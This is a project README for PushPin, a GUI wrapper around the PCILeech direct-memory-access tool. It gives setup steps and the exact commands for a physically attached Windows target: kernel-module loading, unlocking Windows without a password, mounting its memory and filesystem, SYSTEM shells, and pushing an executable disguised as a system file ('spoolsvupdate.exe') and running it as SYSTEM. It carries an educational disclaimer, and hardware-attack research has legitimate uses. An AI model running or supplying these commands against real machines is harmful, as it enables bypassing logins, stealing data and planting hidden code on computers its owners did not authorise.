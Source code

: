 ﻿# PushPin

Visual interface wrapper to PCILeech.

## Summary
PushPin is designed to provide a rapid, easy to use visual interface wrapper to a subset of the PCILeech projects capabilities. It also makes for a nice security awarness demonistration tool.

If you're not sure what PCILeech is please read up on the project first. https://github.com/ufrisk/pcileech

## Features

The GUI workflow is similar to the PCILeech CLI, first successfully load a KMD (KMD LOADERS) and then use the KMD address to load Kernel-mode implants (ACCESS). The following PCILeech kmdload, commands and Kernel-mode implants specfic to Windows Operating Systems are included. 

* Load a kernel module into Windows 7 or Windows 10 64-bit operating systems  
* Unlock Windows 
* Mount the targets filesystem and memory
* SYSTEM or USER command shell
* Push and Execute a file on the target as SYSTEM

### PushPin GUI overview
![](pushpin_description.PNG) 

### KMD Loader Update
Please use WIN10_X64_3 and then WIN10_X64 if it fails. WIN10_X64_3 is currently stable accross versions of Windows 10, including Windows 10 2004 release. 

### Logging
PushPin provides a minimal level of logging of actions taken while using the GUI. The PushPinLog.txt log file is created or appended when an action is taken.

## System Requirements
Tested with [PCILeech Version 4.7](https://github.com/ufrisk/pcileech) and functions correctly with the commands listed above. You can download PCILeech precompiled binarys [here](https://github.com/ufrisk/pcileech/releases/download/v4.7/PCILeech_files_and_binaries_v4.7-20200907.zip).     

PushPin is developed in C# targeted for .NET Framework 4.5. Compile or use the precompiled PushPin.exe binary and place it into the the same directory as pcileech.exe. [Download the latest PushPin.exe](https://github.com/LuckyPi/PushPin/releases/latest).

At a miminum your directory should contain:
```
PushPin.exe
pcileech.exe
FTD3XX.dll
leechcore.dll
vmm.dll
wx64_filepush.ksh
wx64_pscmd.ksh
wx64_pscmd_user.ksh
wx64_pscreate.ksh
wx64_pslist.ksh
wx64_unlock.ksh
win7x64.kmd
```

#### <b>The following commands must work in the CLI for the GUI to work</b>

Load a kernel module into Windows 7x64 or Windows 10x64:
``` 
pcileech kmdload -kmd win7x64
pcileech kmdload -kmd win10_x64
pcileech kmdload -kmd win10_x64_3 -memmap auto 
```
*pcileech kmdload -kmd win10_x64 -memmap auto* - integrates with MemProcFS 

Unlock Windows:
```
pcileech wx64_unlock -kmd kmdaddress -0 1
```

Mount the targets filesystem and memory:
```
pcileech.exe mount -kmd kmdaddress
```

Command shell access as SYSTEM or USER:
```
pcileech wx64_pscmd -kmd kmdaddress
pcileech wx64_pscmd_user -kmd kmdaddress
```

Push and execute a file on the target:
```
pcileech wx64_filepush -kmd kmdaddress -in infile.exe -s \??\c:\windows\system32\spoolsvupdate.exe 
pcileech wx64_pscreate -kmd kmdaddress -s c:\windows\system32\spoolsvupdate.exe -0 syspid -4 1
```

## Disclaimer
Use at your own risk. This code is provided for educational purposes ONLY. Developers assume no liability and shall not be held responsible for any damage that may result from use or misuse of the provided code. It's the end users responsibility to obey all applicable local, state, federal and country specfic laws.  

### Changelog
v1.0 
 * Initial release.

v1.1
* Updated to reflect WIN10_X64_3 kernel module

